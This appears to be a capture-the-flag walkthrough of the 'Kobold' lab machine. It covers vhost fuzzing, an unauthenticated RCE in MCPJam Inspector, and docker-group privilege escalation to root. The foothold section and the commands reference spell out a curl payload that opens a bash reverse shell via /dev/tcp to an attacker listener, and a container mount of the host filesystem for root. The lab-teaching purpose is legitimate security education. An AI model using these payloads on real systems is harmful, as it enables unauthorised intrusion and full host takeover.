





# Kobold

A wildcard TLS certificate leaks a subdomain running MCPJam Inspector v1.4.2, whose `/api/mcp/connect` endpoint executes attacker-supplied commands with no authentication. Privesc via `docker` group membership: reactivated with `newgrp`, then a container mount of the host filesystem to root.

`linux` `web` `subdomain-enum` `mcp` `cve-2026-23744` `docker` `privesc`

---

## Overview

| Field          | Value      |
| -------------- | ---------- |
| Machine        | Kobold     |
| OS             | Linux      |
| Difficulty     | Easy       |
| Release        | 2026-03-15 |
| Starting Creds | None       |

## TL;DR

- Wildcard SAN `*.kobold.htb` in the TLS cert → `ffuf` vhost fuzzing finds `mcp.kobold.htb` (MCPJam Inspector v1.4.2) and `bin.kobold.htb` (PrivateBin)
- MCPJam's backend is localhost-only on `6274`; the nginx vhost is what exposes it. The exploit fails against port 3552 and only works through `https://mcp.kobold.htb` with `-Lk`
- `/api/mcp/connect` takes `command` and `args` and runs them unauthenticated (CVE-2026-23744) → reverse shell as `ben`
- `ben` is in the `docker` group but the group is inactive in the exploited session → `newgrp docker` → mount `/` into a container and `chroot` → root

## Attack Chain



## Tools Used

`nmapfullscan`, `nmap`, `ffuf`, `curl`, `netcat`, `python3` (pty), `docker`

## Setup / Notes

```bash
echo "10.129.x.x kobold.htb mcp.kobold.htb bin.kobold.htb" | sudo tee -a /etc/hosts
```

Both subdomains are found during enumeration, added here together for convenience. All requests to the MCPJam vhost need `-Lk` (nginx 301s to HTTPS, cert is self-signed).

---

## Recon

```bash
nmapfullscan 10.129.x.x
```

```
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
443/tcp  open  ssl/http nginx 1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
| tls-alpn:
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-title: Did not follow redirect to https://kobold.htb/
3552/tcp open  http     Golang net/http server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 redirects to `https://kobold.htb/`, so a hostname entry is required immediately.

The certificate is the highest-signal item in the scan. `Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb`. A wildcard SAN exists because the operator needed one certificate to cover multiple subdomains. That's a direct statement that subdomains exist, before any fuzzing.

Port 3552 is a Golang HTTP server. Worth noting but not yet identified.

---

## Enumeration

### Web - kobold.htb



`https://kobold.htb` serves **Kobold Operations Suite**, a "Coming Soon" landing page describing a platform for internal services, automated workflows, AI-powered agents, and containerised applications. Footer leaks `admin@kobold.htb`.

Ports 443 and 3552 serve the same SvelteKit application, identical JS bundle hashes in page source.

### Subdomain fuzzing

Vhost fuzzing sends the same request to the same IP with a varying `Host` header. Non-existent subdomains all return the identical default response, so the baseline size is filtered out and only real vhosts remain.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u https://kobold.htb/ \
  -H "Host: FUZZ.kobold.htb" \
  -fs 154 -k
```

`-fs 154` filters the wildcard baseline; `-k` skips self-signed cert validation.

| Subdomain        | Status | Service                 |
| ---------------- | ------ | ----------------------- |
| `mcp.kobold.htb` | 200    | MCPJam Inspector v1.4.2 |
| `bin.kobold.htb` | 200    | PrivateBin 2.0.2        |

### MCPJam Inspector - mcp.kobold.htb



MCPJam is a local-first development platform for testing MCP (Model Context Protocol) servers.

- **Settings** confirms the version: `MCPJam Version: v1.4.2`
- **Ollama** is pre-configured as the LLM provider and marked as managed, running locally on the target
- **Servers** shows nothing connected, but allows adding external MCP servers
- **Chat** requires authentication (OAuth redirect mismatch error)

### Mapping the service topology

Worth doing before exploiting, because three HTTP entry points exist and only one reaches the vulnerable code.

Sending the exploit payload straight to port 3552 fails:

```bash
curl http://10.129.x.x:3552/api/mcp/connect -H "Content-Type: application/json" -d '{...}'
```

```
{"error":"API endpoint not found: /api/mcp/connect","success":false}
```

Port 3552 serves the SvelteKit frontend only. The MCPJam backend listens on `127.0.0.1:6274`, confirmed post-shell from `/proc/net/tcp` (`1882` = 6274). nginx proxies the `mcp.kobold.htb` vhost to that localhost backend.

The backend is therefore never directly network-exposed. The nginx vhost is what makes an unauthenticated local API remotely reachable, a reverse proxy quietly widening a service's trust boundary.

### PrivateBin - bin.kobold.htb

PrivateBin 2.0.2. Not pursued; no paste IDs surfaced and the MCPJam path produced a shell first. Left untested, not required for the chain.

---

## Foothold → MCPJam Inspector RCE (CVE-2026-23744)

**Affected versions:** <= 1.4.2 (target runs 1.4.2)

> Verify the affected/patched range and CVSS against the vendor advisory before publishing.

### Why it's vulnerable

MCP is a protocol for connecting an LLM to external tool servers. Those servers are typically local processes, so MCPJam's job is to spawn them. "Take a command and run it" is the endpoint's intended function, not a bug.

The bug is the absence of a boundary around that function. `/api/mcp/connect` accepts a `serverConfig` object containing `command` and `args`, spawns the process, and asks for no authentication. Confirmed by exploitation: the values are passed to the OS unsanitised.

That's tolerable when the API is bound to loopback on a developer's laptop, which is MCPJam's design assumption. It stops being tolerable the moment a reverse proxy publishes it. The vulnerability isn't in the code path. It's in the deployment invalidating the assumption the code path was written under.

### Proving RCE

```bash
nc -lvnp 9001
```

```bash
curl -Lk https://mcp.kobold.htb/api/mcp/connect \
  -H "Content-Type: application/json" \
  -d '{
    "serverConfig": {
      "command": "bash",
      "args": ["-c", "bash -i >& /dev/tcp/10.10.x.x/9001 0>&1"],
      "env": {}
    },
    "serverId": "pwned"
  }'
```

`-L` follows the nginx 301 from HTTP to HTTPS; `-k` skips validation of the self-signed cert. Without both, the request never reaches the backend. This is the same failure mode as hitting 3552 directly and is easy to misread as "the exploit doesn't work."

Shell received as `ben`.

### Shell upgrade

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z, then on attack box: stty raw -echo; fg
export TERM=xterm
```

`user.txt` is in `/home/ben`.

---

## Post-Exploitation

### Arcane - ruled out

```bash
ps aux | grep -i arcane
# root  1484  /root/arcane_linux_amd64
```

Arcane is a Docker management platform running as root on localhost `46655`. Attractive on paper: anything it controls, it controls as root.

Every candidate endpoint returned 404:

```bash
curl -s http://127.0.0.1:46655/api/v1/containers
curl -s http://127.0.0.1:46655/api/v1/projects
curl -s http://127.0.0.1:46655/api/v1/auth/login \
  -H "Content-Type: application/json" -d '{"username":"admin","password":"admin"}'
curl -s http://127.0.0.1:46655/api/auth/login \
  -H "Content-Type: application/json" -d '{"username":"admin","password":"admin"}'
```

```
404: Page Not Found
```

Environment variables are inaccessible too. The process runs as root and `ben` can't read its `/proc` entry:

```bash
cat /proc/1484/environ
# cat: /proc/1484/environ: Permission denied
```

No usable API surface, no credential leak. Dead end.

### Group membership

```bash
id
# uid=1000(ben) gid=1002(ben) groups=1002(ben),20(dialout),...,1000(docker),1001(podman)
```

`docker` is present in the group list. That's the privesc.

---

## Privilege Escalation → docker group

### Why it works

The Docker daemon runs as root and its Unix socket is group-owned by `docker`. Anything you can ask the daemon to do, it does as root, including bind-mounting a host path into a container. Membership of `docker` is therefore equivalent to root; it is not a privilege boundary and was never designed as one.

The container is just the delivery mechanism. Mounting `/` at `/mnt` and calling `chroot` makes the host's real filesystem the container process's root, and that process is uid 0. Every host-level permission check is bypassed because none of them are consulted. The kernel is asked by root, from a process whose namespace already contains the host's files.

The catch on this box is the session. `id` lists `docker`, but `docker` commands still return permission denied. Supplementary groups are attached to a process at credential-setup time, and a shell spawned by an exploited service inherits whatever that service had. The group is on the account, not on the process. `newgrp docker` starts a new shell with the group active in its credentials, with no logout and no re-login.

### Steps

```bash
# docker may be listed by id but inactive in this session
newgrp docker
id
```

The box has no egress, so `docker run` can't pull. Check what's already local:

```bash
docker images
```

`mysql` is present, so use it as the base:

```bash
docker run -v /:/mnt --rm -it mysql chroot /mnt sh
```

```bash
id
# uid=0(root) gid=0(root) groups=0(root)
```



`root.txt` is in `/root`.

---

## Rabbit Holes

- **Kobold Letters**: the box name matches a 2024 CSS email-injection technique (content hidden until forwarded). No mail services in the scan; name coincidence only.
- **Malicious MCP server**: stood up a Python MCP server expecting MCPJam to connect outbound and yield a callback. Unnecessary; the connect endpoint executes commands directly.
- **OAuth token theft**: the Chat tab's OAuth redirect mismatch looked like a token-interception opportunity. The RCE needs no auth, so it was never relevant.
- **Arcane**: root-owned Docker manager on 46655, ruled out by endpoint probing.
- **PrivateBin**: discovered, untested.

---

## Lessons Learned

- **`newgrp` when a group privesc "should" work but doesn't.** Supplementary groups are fixed on the process at credential-setup time, so a shell inherited from an exploited service can list a group in `id` and still be denied by it. `newgrp <group>` re-derives credentials in a new shell. Applies to any group-based path, not just `docker`.
- **Map entry points before concluding an exploit fails.** The same app answered on 443, 3552, and a vhost, but only the vhost proxied to the vulnerable backend on `127.0.0.1:6274`. A 404 from the wrong port looks identical to a patched target.
- **A reverse proxy can move a trust boundary.** MCPJam's unauthenticated command endpoint is defensible on loopback. nginx publishing it is what turned a design assumption into a 9.8. Worth asking on every box: what is this service assuming about who can reach it?
- **`docker` group = root.** Mount the host filesystem into a container and `chroot`. On air-gapped targets, run `docker images` first, since `docker run` can't pull without egress.
- **Read the certificate during recon.** A wildcard SAN is the operator telling you subdomains exist before you fuzz for them.

---

## Commands Reference

```bash
# Setup
echo "10.129.x.x kobold.htb mcp.kobold.htb bin.kobold.htb" | sudo tee -a /etc/hosts

# Recon
nmapfullscan 10.129.x.x

# Enumeration
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u https://kobold.htb/ -H "Host: FUZZ.kobold.htb" -fs 154 -k

# Foothold
nc -lvnp 9001
curl -Lk https://mcp.kobold.htb/api/mcp/connect \
  -H "Content-Type: application/json" \
  -d '{"serverConfig":{"command":"bash","args":["-c","bash -i >& /dev/tcp/10.10.x.x/9001 0>&1"],"env":{}},"serverId":"pwned"}'

# Shell upgrade
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm

# Post-ex
ps aux | grep -i arcane
id

# Privesc
newgrp docker
docker images
docker run -v /:/mnt --rm -it mysql chroot /mnt sh
```

---

## References

- CVE-2026-23744: MCPJam Inspector unauthenticated RCE *(verify against vendor advisory)*
- Model Context Protocol specification: https://modelcontextprotocol.io
- Docker daemon socket and the `docker` group: https://docs.docker.com/engine/security/
